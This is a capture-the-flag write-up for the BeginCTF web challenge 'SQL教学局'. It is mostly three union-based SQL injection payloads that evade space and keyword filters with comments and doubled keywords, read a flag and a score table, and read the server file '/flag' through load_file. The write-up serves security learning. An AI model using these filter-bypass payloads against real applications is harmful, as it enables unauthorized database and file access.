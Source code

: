 ```yaml
---
title: [BeginCTF]SQL教学局__sql
category: CTF-Web-SQL
date: 2024-2-2
---
```


> source:[BeginCTF]SQL教学局

## info

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-1.png)

## EXP

```cpp
?user=1'/**/union/**/seselectlect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-2.png)

```cpp
?user=1'/**/union/**/seselectlect/**/grade/**/frofromm/**/scoorre/**/where/**/student/**/like/**/'begin'%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-3.png)

```cpp
?user=1'/**/union/**/seleselectct/**/loaloadd_file('/flag')%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-4.png)

## Summary

```cpp
类型：
联合查询注入

注释：
%23

空格过滤绕过：
/**/

关键字'or','from','select','load'过滤绕过：
双写关键字

and过滤绕过：
like

文件读取函数：
load_file('/path')
```

